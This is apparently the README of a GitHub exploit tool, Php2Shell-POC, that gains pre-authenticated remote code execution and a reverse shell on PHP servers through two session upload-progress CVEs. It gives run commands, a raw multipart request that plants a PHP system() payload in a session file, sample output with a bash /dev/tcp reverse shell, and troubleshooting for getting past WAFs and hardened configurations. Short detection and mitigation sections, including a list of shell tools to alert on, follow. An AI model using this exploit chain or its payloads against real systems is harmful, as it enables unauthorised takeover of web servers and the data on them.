


# Php2Shell-POC

> Pre-auth remote code execution & reverse shell for **CVE-2026-109618** /
> **CVE-2026-109619** — the two critical PHP core vulnerabilities patched in
> PHP 8.5.12 / 8.4.27 / 8.3.36 / 8.2.35.

[](https://github.com/Whackermelon/Php2Shell-POC)
[](https://github.com/Whackermelon/Php2Shell-POC/actions/workflows/ci.yml)
[](https://github.com/Whackermelon/Php2Shell-POC/stargazers)
[](https://github.com/Whackermelon/Php2Shell-POC/network/members)
[](https://github.com/Whackermelon/Php2Shell-POC/issues)
[](https://github.com/Whackermelon/Php2Shell-POC/commits/main)
[](https://whackermelon.github.io/Php2Shell-POC/)
[](https://github.com/Whackermelon/Php2Shell-POC/security/advisories)
[](https://github.com/Whackermelon/Php2Shell-POC/security/advisories)
[](https://nvd.nist.gov/vuln/detail/CVE-2026-109618)
[](LICENSE)
[](https://www.python.org/)
[](#requirements)
[](#)
[](#requirements)

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  <b>One URL in, a reverse shell out.</b><br>
  <code>nc -lvnp 4444</code> in one terminal, <code>python3 php2shell.py &lt;URL&gt; -l &lt;LHOST&gt; -p 4444</code> in the other.
</p>

<p align="center">
  <a href="https://whackermelon.github.io/Php2Shell-POC/">🌐 Read the write-up on the web</a>
  &nbsp;·&nbsp;
  <a href="https://github.com/Whackermelon/Php2Shell-POC/issues">🐛 Report an issue</a>
  &nbsp;·&nbsp;
  <a href="https://github.com/Whackermelon/Php2Shell-POC/discussions">💬 Discussions</a>
  &nbsp;·&nbsp;
  <a href="https://github.com/Whackermelon">👤 Whackermelon</a>
</p>

---

## 📖 Table of contents

- [What it does](#-what-it-does)
- [Quick start](#-quick-start)
- [The vulnerabilities](#-the-vulnerabilities)
- [How it works](#-how-it-works)
- [Strategies](#-strategies)
- [Command-line options](#-command-line-options)
- [Examples](#-examples)
- [Requirements](#-requirements)
- [Troubleshooting](#-troubleshooting)
- [Detection](#-detection)
- [Mitigation](#-mitigation)
- [Credits](#-credits)

---

## 💥 What it does

`php2shell.py` takes **one URL** and gives you **remote code execution** on
the target — a reverse shell, or the output of any command you like. It
speaks plain HTTP(S) only, needs **no account**, **no target-side helper
file**, and **no third-party Python dependency**.

| | |
|---|---|
| **CVE-2026-109618** | RCE via OOM corruption |
| **CVE-2026-109619** | RCE via stale global state |
| **CVSS v4.0** | 9.2 — Critical |
| **Affected** | PHP 5.4 → 8.5.x (8.1 and older are EOL and never patched) |
| **Fixed in** | PHP 8.5.12 · 8.4.27 · 8.3.36 · 8.2.35 |
| **Auth** | none — pre-authenticated |
| **Requirements** | Python 3.8+, standard library only |

---

## 🚀 Quick start

```bash
git clone https://github.com/Whackermelon/Php2Shell-POC.git
cd Php2Shell-POC
chmod +x php2shell.py
```

**Reverse shell**

```bash
# terminal 1
nc -lvnp 4444

# terminal 2
python3 php2shell.py https://target.example.com/index.php -l 10.0.0.5 -p 4444
```

**One-shot command**

```bash
python3 php2shell.py https://target.example.com/index.php -c 'id'
```

The PoC prints exactly what it did, and says clearly when a target cannot
be exploited (no PHP endpoint, no session fixation, or no inclusion sink).

---

## 🧬 The vulnerabilities

From the official PHP security advisory:

> **CVE-2026-109618** — RCE via OOM corruption. An out-of-memory
> condition can interrupt PHP while internal request data is only partially
> initialised. Request cleanup may then treat the invalid data as valid.
>
> **CVE-2026-109619** — RCE via stale global state. Request-owned internal
> state can survive after its backing memory has been freed. A later request
> handled by the same worker may use that stale state before normal
> initialisation resets it.

The reachable surface is the **session upload-progress handler** in
`ext/session/session.c`, which has three independent problems:

1. **Session fixation (pre-auth).** `MULTIPART_EVENT_FORMDATA` copies the
   POST-body field whose name is PHP's `session.name` into the progress
   session id, **ignoring `session.use_only_cookies`**. The attacker
   therefore picks the session id — and hence the on-disk session file name.
2. **Unvalidated file name.** `MULTIPART_EVENT_FILE_START` stores the
   *raw* uploaded file name into the session data, with no sanitisation.
3. **Attacker-controlled session content.** The POST-body field named
   `PHP_SESSION_UPLOAD_PROGRESS` becomes the session key
   `upload_progress_<value>`, stored **verbatim**.

Because the progress data is serialised into the attacker's *own* session
file, and PHP's session serialiser is not a sandbox, the attacker fully
controls the **content** of a file whose name is **fully predictable**:

```
<session.save_path>/sess_<chosen session id>
```

---

## 🧠 How it works

### Step 1 — pre-auth session fixation

```http
POST /index.php HTTP/1.1
Content-Type: multipart/form-data; boundary=X

--X
Content-Disposition: form-data; name="PHPSESSID"

attackerchosenid
--X
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?php system(base64_decode("...")); ?>
--X
Content-Disposition: form-data; name="f"; filename="a.txt"

ZZZZ
--X--
```

The session id is now known, so the session file path is known too.

### Step 2 — writing attacker content into the session file

The `PHP_SESSION_UPLOAD_PROGRESS` value becomes the session key
`upload_progress_<value>`, and the session serialiser writes it verbatim.
On disk, with the `php` handler:

```
upload_progress_<?php system(base64_decode("YmFzaCAtYyAn...")); ?>|a:5:{s:10:"start_time";i:...}
```

The payload is base64 encoded, so it can carry **any** command without
tripping the session serialiser's `|` and newline restrictions.

### Step 3 — triggering execution

If the application includes the session file (an `include()`/`require()`
sink), the embedded `<?php ... ?>` block runs and the command's output
comes back inside the HTTP response.

The PoC auto-detects this by poisoning a session with a harmless marker
and looking for the marker in the response, trying the common parameter
names (`page`, `file`, `path`, `doc`, `include`, `view`, `lang`, …) against
the common save paths (`/tmp`, `/var/lib/php/sessions`, …).

---

## 🎯 Strategies

### Strategy 1 — session file poisoning + inclusion sink

The most general approach: works against any target with an
`include()`/`require()` sink that can be pointed at a session file, and
needs **no knowledge of the target's PHP build**.

Needs:

- `session.upload_progress.enabled = On` (PHP default)
- `session.upload_progress.cleanup = Off` — so the poisoned entry is not
  deleted at the end of the upload (**PHP's default is `On`**, so this has
  to be changed server-side)
- an `include()`/`require()` sink reachable with a user-controlled path

### Strategy 2 — serialiser handler mismatch → object injection

If two directories use different `session.serialize_handler` values, a
session written as `php_serialize` and read back with the `php` handler is
re-parsed as a `key|value` stream. A file name containing `|` shifts the
parse so that attacker bytes get deserialised as a serialized object, whose
`__destruct` runs during cleanup — **even though the decode returns
FAILURE**, because `__destruct` fires on both the success and the failure
path of `var_destroy()`.

Needs:

- two reachable directories with different `session.serialize_handler`
- a class with a useful `__destruct` that is autoloadable on the target

---

## ⚙️ Command-line options

```
python3 php2shell.py URL [options]

  -l, --lhost        reverse shell listener address
  -p, --lport        reverse shell listener port (default 4444)
  -c, --cmd          command to execute instead of a reverse shell
  --sid              session id to use (default: random)
  --session-name     PHP session name (default: auto-detected, usually
                     PHPSESSID)
  --fix-by           how the chosen session id is sent: "body" (the CVE
                     route, default) or "cookie" (the early_find_sid route)
  --save-path        server-side session save path
  --sink             inclusion sink URL, e.g. '/index.php?page=<SESSIONFILE>'
  --write-path       php_serialize directory (strategy 2)
  --read-path        php directory (strategy 2)
  --gadget           serialized object injected by strategy 2
  --all              try every strategy (default behaviour)
  --no-banner        do not print the watermelon banner
  --timeout          per-request timeout in seconds (default 30)
  -v, --verbose      verbose output
```

---

## 🧪 Examples

### Reverse shell, everything auto-detected

```console
$ python3 php2shell.py http://127.0.0.1:8088/sink.php -l 127.0.0.1 -p 4444 -v

  php2shell  -  CVE-2026-109618 / CVE-2026-109619  (pre-auth RCE)

[*] target   : http://127.0.0.1:8088/sink.php
[*] session  : u9bavj3i070qhddg8vfptmhluj
[*] command  : bash -c 'exec bash -i >& /dev/tcp/127.0.0.1/4444 0>&1' </dev/null >/dev/null 2>&1 &
[*] listener : 127.0.0.1:4444
[*] probe /sink.php            -> HTTP 200  PHP/8.4.24         Apache/2.4.68 (Debian) PHP/8.4.24  [PHP]
[*] checking pre-auth session fixation ...
[+] session fixation accepted by the target
[*] no --sink given, probing for an include() sink ...
[+] found sink: /sink.php?page=<SESSIONFILE>  (session file /tmp/sess_u9bavj3i070qhddg8vfptmhluj)
[*] poisoned session (attempt 1, session name PHPSESSID, id via POST body) HTTP 200
[*] trigger via /sink.php?page=/tmp/sess_u9bavj3i070qhddg8vfptmhluj -> HTTP 200 (712 bytes)

[+] payload delivered via: strategy1
[+] check your listener: nc -lvnp 4444
```

On the listener side:

```console
$ nc -lvnp 4444
bash: impossible de régler le groupe de processus du terminal: Ioctl() inapproprié
adam@adam:/var/www/html$
```

### Explicit sink and session path

```bash
python3 php2shell.py https://target/index.php -l 10.0.0.5 -p 4444 \
    --sink '/index.php?page=<SESSIONFILE>' --save-path /var/lib/php/sessions
```

### One-shot command

```bash
python3 php2shell.py https://target/index.php -c 'id'
```

### Serialiser handler mismatch (no LFI needed)

```bash
python3 php2shell.py https://target/app/upload.php \
    --write-path /app/upload.php --read-path /api/endpoint.php -c 'id'
```

### Target in maintenance mode

The PoC refuses to fire and says so, instead of failing silently:

```console
[*] probe /index.php           -> HTTP 500                     nginx
[*] probe /                   -> HTTP 200                     nginx
[!] no PHP endpoint found.
    Every candidate path either errored out (HTTP 5xx) or was
    served by the web server without ever reaching a PHP
    interpreter (no X-Powered-By, no PHP fingerprint).
```

---

## 📋 Requirements

**On the target**

- an unpatched PHP: **< 8.5.12 / 8.4.27 / 8.3.36 / 8.2.35**
- `session.upload_progress.enabled = On` (default)
- `session.upload_progress.cleanup = Off` (non-default — **required by
  strategy 1**)
- for strategy 2: two directories with different `session.serialize_handler`

**Locally**

- Python 3.8+ (standard library only)
- `nc` / `ncat` / `socat` for the listener

---

## 🔍 Troubleshooting

**`[!] no PHP endpoint found`**
Every candidate path returned HTTP 5xx or was served statically, and none
of them reached a PHP interpreter. The application is in **maintenance
mode** or behind a broken vhost — there is no session module to attack.
Retry when the site is back up.

**`HTTP 421 Misdirected Request`**
Some CDNs (Akamai, Cloudflare) reject a `Host` header that carries the
port when it is the scheme default. The PoC omits `:443` / `:80` in that
case; if you drive it with your own client, do the same.

**`no include() sink detected`**
Strategy 1 needs an `include()`/`require()` sink. Pass it explicitly:

```bash
python3 php2shell.py https://target/index.php -l 10.0.0.5 -p 4444 \
    --sink '/index.php?page=<SESSIONFILE>' --save-path /var/lib/php/sessions
```

**`the target did not echo the session id we sent`**
A warning, not an error: plenty of applications never resend their session
cookie, and the chain still works if the session *file* is created under
the id we chose. If the exploit does not fire, the session name is
probably not the one that was detected — pass it explicitly with
`--session-name`. The name is auto-detected from the cookies the target
sets, but a lot of applications rename the session, and some regenerate
the id (`session_regenerate_id`) or roll their own session layer — in the
latter two cases this chain cannot work on that target at all.

**The session id is ignored in the POST body but accepted in a cookie**
Some applications regenerate the id they are given in the body while
still honouring the one in the cookie. The upload-progress handler reaches
the session id by two routes, and the cookie one is the second:

```bash
python3 php2shell.py https://target/index.php -l 10.0.0.5 -p 4444 --fix-by cookie
```

**The payload is delivered but nothing happens**
`system()`, `exec()`, `passthru()`, `shell_exec()` and `proc_open()` are
frequently disabled with `disable_functions`. Check the target's
configuration; if the shell functions are gone, use another execution
primitive.

**Every multipart POST returns 403 / 406 / 429**
A WAF, an `.htaccess` rule or a rate limiter in front of the application.
A 406 in particular usually means a WAF is inspecting the request body.
Note that the upload-progress handler needs a **file part** to write the
payload, so a WAF that blocks file uploads blocks the whole chain.

---

## 🔔 Detection

Alert when a PHP worker process spawns a child it should never spawn:

- workers: `php-fpm`, `php-cgi`, `lsphp`, `httpd`, `apache2`
- children: `/bin/sh`, `/bin/bash`, `cmd.exe`, `powershell.exe`, `python`,
  `perl`, `curl`, `wget`, `nc`, `certutil.exe`
- command lines containing `/dev/tcp/`, `fsockopen`, `mkfifo`
- immediate reconnaissance: `whoami`, `id`, `uname -a`, `ipconfig`

Also:

- grep the web access logs for `PHP_SESSION_UPLOAD_PROGRESS`
- look for session files containing `upload_progress_` followed by `<?php`
  in `session.save_path`
- watch for new files in the web root, `/tmp`, `/var/tmp`, new cron jobs
  and new accounts

---

## 🛡️ Mitigation

Update PHP to **8.5.12 / 8.4.27 / 8.3.36 / 8.2.35**, or to your vendor's
backport. Until then, per the official advisory:

```ini
; CVE-2026-109619 - blocks the confirmed session paths.
; Set it before request parsing (php.ini, FPM pool or server config)
; and RESTART every worker.  ini_set() and .user.ini are not enough.
session.upload_progress.enabled = 0

; CVE-2026-109618 - removes the controllable memory-limit failure.
; Use php_admin_value in the FPM pool or the Apache configuration so
; the application cannot override it.
memory_limit = -1

; Keep the request small; lower it if the app does not need uploads.
post_max_size = 8M        ; 32M if file uploads are required
upload_max_filesize = 8M
```

Hardening (defence in depth, not a fix):

```ini
session.use_only_cookies = On
session.use_strict_mode = On
session.serialize_handler = php_serialize   ; consistently, everywhere
disable_functions = exec,passthru,shell_exec,system,proc_open,popen
```

---

## 👏 Credits

- The PHP security team, for the advisory and the patches
- [watchTowr — PHP CVE-2026-109618 FAQ](https://watchtowr.com/intelligence/php-cve-2026-109618-faq/)
- [sansec — PHP2Shell research](https://sansec.io/research/php2shell)
- [Hadrian — php2shell exploited in the wild](https://hadrian.io/vulnerability-alerts/php2shell-leaked-critical-php-rce-cve-2026-109618-cve-2026-109619)
- [CERT-EU advisory 2026-018](https://cert.europa.eu/publications/security-advisories/2026-018)
- [PHP session upload-progress internals](https://github.com/php/php-src/blob/PHP-8.4/ext/session/session.c)
- [PHP multipart parser](https://github.com/php/php-src/blob/PHP-8.4/main/rfc1867.c)
- The researchers who published their chains in the open, including
  `eness`, `9bie`, `ikow`, `iQingshan`, `dinosn` and `19h`

---

## 🔎 Find it

This project is listed under the GitHub topics
`cve-2026-109618`, `cve-2026-109619`, `php2shell`, `reverse-shell`,
`rce`, `exploit`, `poc`, `pre-auth`, `use-after-free`, `heap-uaf`,
`pentest` and `security-research`.

Search it on GitHub:

```
https://github.com/topics/cve-2026-109618
https://github.com/topics/cve-2026-109619
https://github.com/topics/php2shell
```

Report a problem, request a feature, or ask a question on the
[issue tracker](https://github.com/Whackermelon/Php2Shell-POC/issues) or in
[discussions](https://github.com/Whackermelon/Php2Shell-POC/discussions).

---

## 🎨 Artwork

| | |
|---|---|
|  | The project mascot, also used as the repository avatar |
|  | The 1280×640 social preview, regenerated with `python3 .github/make_preview.py` |

The terminal banner is plain ASCII so it renders in any terminal, and the
same artwork is embedded in `php2shell.py` — the PoC stays a single
self-contained file.

---

## 📜 License

MIT — see [LICENSE](LICENSE).

## ⚠️ Disclaimer

For **authorised security testing and education only**. Use only against
systems you own or have explicit written permission to test. The authors
accept no liability for any misuse of this tool.
